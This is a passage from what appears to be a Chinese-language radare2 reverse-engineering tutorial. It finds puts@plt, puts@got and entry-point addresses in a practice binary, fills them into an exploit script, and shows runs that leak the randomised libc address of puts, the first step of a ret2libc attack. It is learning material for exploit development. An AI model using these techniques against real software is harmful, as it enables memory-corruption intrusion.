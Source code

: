 ```python
if __name__ == "__main__":
    main()
```

我们需要填入 puts_plt 、puts_got 、entry_point 的地址。回到radare2 执行下列命令。

```bash
[0xf7763b30]> # the address of puts@plt:
[0xf7763b30]> ?v sym.imp.puts
0x08048390
[0xf7763b30]> # the address of puts@got:
[0xf7763b30]> ?v reloc.puts
0x0804a014
[0xf7763b30]> # the address of program’s entry point (entry0):
[0xf7763b30]> ieq
0x080483d0
```

说明：
- `#` 字符用于加注注释
- `~` 字符用于radare的内部grep
- `?v` 用于计算后面符号的值。
- `sym.imp.puts` 是radare2 自动标记的plt stub
- `reloc.puts` 是 radare2 自动标记的got
- `ieq` 是显示程序入口地址的命令

现在我们将exp.py中的几个地址填入具体值。
```py
...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

...
```

让我们执行这个python 脚本：

```sh
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23578
[*] puts is at: 0xf75db710
[*] Stopped process ‘./megabeets_0x2’ (pid 23578)
 
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23592
[*] puts is at: 0xf7563710
[*] Stopped process ‘./megabeets_0x2’ (pid 23592)
 
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23606
[*] puts is at: 0xf75e3710
[*] Stopped process ‘./megabeets_0x2’ (pid 23606)
```
